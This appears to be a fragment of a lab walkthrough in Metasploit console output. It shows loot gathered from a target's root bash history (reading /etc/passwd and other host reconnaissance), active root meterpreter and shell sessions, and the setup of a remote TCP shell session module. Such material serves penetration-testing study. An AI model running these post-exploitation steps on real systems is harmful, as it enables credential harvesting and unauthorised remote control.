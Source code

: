 ```
msf5 post(linux/gather/enum_users_history) > loot

Loot
====

host          service  type                name                  content     info                   path
----          -------  ----                ----                  -------     ----                   ----
192.111.31.3           linux.enum.users                          text/plain  bash history for root  /root/.msf4/loot/20230310155132_Linux_PE_192.111.31.3_linux.enum.users_721206.txt
192.111.31.3           linux.enum.users                          text/plain  Last logs              /root/.msf4/loot/20230310155201_Linux_PE_192.111.31.3_linux.enum.users_298782.txt
```

```
msf5 post(linux/gather/enum_users_history) > cat /root/.msf4/loot/20230310155132_Linux_PE_192.111.31.3_linux.enum.users_721206.txt
[*] exec: cat /root/.msf4/loot/20230310155132_Linux_PE_192.111.31.3_linux.enum.users_721206.txt

whoami
cat /etc/passwd
groups root
cat /etc/*issue
unmae -r
uname -r
uname -a
ifconfig
ip a s
netstat -antp
ps aux
env
```

重启了一下实验室，补充最后两个模块：

Kali: 192.141.94.2

Target: 192.141.94.3

```
msf5 post(linux/gather/enum_users_history) > use post/multi/manage/system_session
msf5 post(multi/manage/system_session) > sessions

Active sessions
===============

  Id  Name  Type                   Information                                  Connection
  --  ----  ----                   -----------                                  ----------
  6         shell cmd/unix                                                      192.141.94.2:45369 -> 192.141.94.3:445 (192.141.94.3)
  7         meterpreter x86/linux  uid=0, gid=0, euid=0, egid=0 @ 192.141.94.3  192.141.94.2:4433 -> 192.141.94.3:49134 (192.141.94.3)

msf5 post(multi/manage/system_session) > set SESSION 6
SESSION => 6
msf5 post(multi/manage/system_session) > info

       Name: Multi Manage System Remote TCP Shell Session
     Module: post/multi/manage/system_session
   Platform: Linux, OSX, Unix
       Arch: 
       Rank: Normal

Provided by:
  Carlos Perez <carlos_perez@darkoperator.com>
```